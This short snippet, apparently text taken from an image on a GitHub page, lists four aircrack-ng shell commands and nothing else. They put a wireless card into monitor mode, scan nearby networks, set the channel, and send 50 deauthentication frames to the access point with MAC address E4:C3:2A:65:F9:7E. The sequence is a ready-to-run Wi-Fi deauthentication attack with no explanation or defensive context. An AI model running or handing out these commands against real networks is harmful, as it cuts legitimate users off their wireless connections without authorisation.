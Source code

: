 ```ruby
sudo airmon-ng start wlp0s20f3
```

~~~ruby
sudo airodump-ng wlp0s20f3mon
~~~

~~~ruby
sudo iwconfig wlp0s20f3mon channel 10
~~~

~~~ruby
sudo aireplay-ng --deauth 50 -a E4:C3:2A:65:F9:7E wlp0s20f3mon
~~~

